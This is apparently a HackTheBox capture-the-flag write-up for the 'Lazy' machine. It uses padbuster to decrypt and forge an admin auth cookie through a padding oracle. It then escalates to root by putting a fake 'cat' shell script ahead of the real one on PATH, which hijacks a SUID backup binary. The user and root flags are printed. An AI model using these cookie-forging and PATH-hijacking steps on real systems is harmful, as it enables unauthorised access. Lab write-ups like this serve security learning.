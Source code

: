 # Lazy

Author: Ewaël

**Lazy** is a medium HackTheBox box by trickster0.

`nmap -sC -sV -oN nmap 10.10.10.18 -v -A` shows ports 80 and 22 are open. Let's start with the website:

![main](main.png)

After trying some default creds for admin, I decide to register as "admi" when I see "admin" is taken already. Once I'm logged in, I see an `auth` cookie which I decide to decrypt:

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ
```

It shows me that only the user is saved:

```
[+] Decrypted value (ASCII): user=admi
```

Thus I can easily modify it to become "admin" instead of "admi".

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ -plaintext user=admin
```

My new `auth` cookie is `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`, and allows me to be logged in as "admin".

![admin](admin.png)

With `mitsos` ssh key, `ssh mitsos@10.10.10.18 -i ssh_key` allows me to get my user flag in `mitsos` home dir:

`d558e7924bdfe31266ec96b007dc63fc`

In this same directory there is a `backup` executable with root SUID which seems to print what is in `/etc/shadow`. A quick `ltrace ./backup` reveals me a very interesting information:

![ltrace](ltrace.png)

`cat` is used by `system` instead of `/bin/cat` so I can easily replace this with my own version of `cat`:

```bash
#!/bin/sh
/bin/sh
```

Then `chmod +x cat` makes the script executable and `export PATH=/home/mitsos:${PATH}` adds it in first place to `PATH`. After executing `backup` again, I get my root shell and flag:

`990b142c3cefd46a5e7d61f678d45515`

